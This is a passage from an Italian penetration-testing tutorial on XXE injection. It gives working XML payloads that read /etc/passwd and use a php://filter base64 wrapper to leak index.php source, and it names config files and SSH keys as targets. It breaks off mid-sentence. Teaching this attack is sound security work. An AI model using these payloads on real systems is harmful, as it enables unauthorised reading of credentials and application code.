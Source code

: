 ```xml

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [
  <!ENTITY company SYSTEM "file:///etc/passwd">
]>
<root>
<name>asdasd</name>
<tel>asdasd</tel>
<email>&company;</email>
<message>asdasd</message>
</root>

```

e vediamo che funziona! File interessanti da leggere tipicamente sono file di configurazione e chiavi ssh. Possiamo anche leggere il codice stesso dell'applicazione per comprendere e sfruttare meglio le eventuali vulnerabilita' (diventa un pen test withebox)

Proviamo a leggere `index.php`

```xml

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [
  <!ENTITY company SYSTEM "file:///index.php">
]>
<root>
<name>asdasd</name>
<tel>asdasd</tel>
<email>&company;</email>
<message>asdasd</message>
</root>

```

cosi direttamente NON funziona perche' non e' un XML valido, va quindi codificato in base64

```xml

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [
  <!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=index.php">
]>
<root>
<name>asdasd</name>
<tel>asdasd</tel>
<email>&company;</email>
<message>asdasd</message>
</root>

```

e riceviamo in risposta il file index.php codificato in base64. lo decodifichiamo con
